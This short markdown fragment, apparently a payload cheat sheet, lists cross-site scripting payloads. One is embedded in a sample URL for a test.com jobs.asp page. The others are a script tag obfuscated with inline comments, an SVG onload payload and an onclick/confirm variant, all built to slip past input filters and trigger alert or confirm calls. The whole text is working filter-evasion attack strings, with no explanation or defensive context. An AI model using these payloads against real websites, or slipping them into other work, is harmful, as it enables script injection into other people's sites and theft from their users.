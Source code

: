 **URL:**<br/>[http://test.com/pages/jobs.asp?did=123456"><\<script/**/>/*test*/alert(/xss/)/*123*/</script>](http://test.com/pages/jobs.asp?did=123456"><\<script/**/>/*test*/alert(/xss/)/*123*/</script>)

**Payload:**<br/>`"><\<script/**/>/*test*/alert(/xss/)/*123*/</script>`


**Payload:**<br/>`"/**/></*svg*/><svg/*test*/onload=alert(/xss/)/*111*/>`


**Payload:**<br/> `<d3"<"/onclick="1>[confirm``]"<">z `
